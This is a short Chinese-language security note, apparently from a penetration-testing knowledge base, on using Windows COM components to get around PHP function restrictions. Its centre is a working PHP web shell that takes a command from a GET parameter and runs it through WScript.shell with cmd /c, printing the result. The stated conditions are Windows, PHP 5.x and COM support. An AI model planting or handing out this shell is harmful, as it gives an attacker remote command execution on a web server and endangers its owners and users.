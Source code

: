 ```yaml
---
title: 利用系统组件 window com 绕过
id: zhfly3468
---
```


## 利用系统组件 window com 绕过

**1\. 利用条件**

*   Windows
*   php5.x（高版本扩展要自己添加）
*   支持COM组件

**2\. 基本原理**

COM组件它最早的设计意图是，跨语言实现程序组件的复用
COM组件由以Win 32动态连接库（DLL）或可执行文件（EXE）形式发布的可执行代码所组成。遵循COM规范编写出来的组件将能够满足对组件架构的所有要求。COM组件可以给应用程序、操作系统以及其他组件提供服务；自定义的COM组件可以在运行时刻同其他组件连接起来构成某个应用程序；COM组件可以动态的插入或卸出应用。

![image](../img/f4d90ad57567c7fdb61135764cf52a1d.png)

```
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象 Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?> 
```

![image](../img/82fa05584b8930441cf076240ca30100.png)